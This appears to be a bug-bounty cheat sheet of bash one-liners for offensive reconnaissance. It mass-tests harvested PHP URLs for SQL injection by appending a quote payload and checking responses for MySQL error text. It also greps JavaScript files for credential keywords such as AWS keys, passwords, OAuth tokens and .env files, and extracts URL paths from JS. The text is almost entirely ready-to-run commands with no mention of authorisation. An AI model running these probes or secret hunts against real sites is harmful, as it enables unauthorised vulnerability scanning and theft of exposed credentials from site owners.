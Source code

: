# SQL Injection:

cat sql | grep ".php" | sed 's/.php.*/.php/' | sort -u | sed 's|$|%27%22%60|' | while read url ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mVulnerable\e[0m" || echo -e "$url \e[1;31mNot Vulnerable\e[0m" ; done

 
 cat urls.txt | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | httpx -silent -ms "You have an error in your SQL syntax"

## Sensitive information disclosure throgh JS files:

cat *js | grep -r -E "aws_access_key|aws_secret_key|api key|passwd|pwd|heroku|slack|firebase|swagger|aws_secret_key|aws key|password|ftp password|jdbc|db|sql|secret jet|config|admin|pwd|json|gcp|htaccess|.env|ssh key|.git|access key|secret token|oauth_token|oauth_token_secret" /path/to/directory/*.js


## Extract urls from JS files:

cat file.js | grep -aoP "(?<=(\"|\'|\`))\/[a-zA-Z0-9_?&=\/\-\#\.]*(?=(\"|\'|\`))" | sort -u


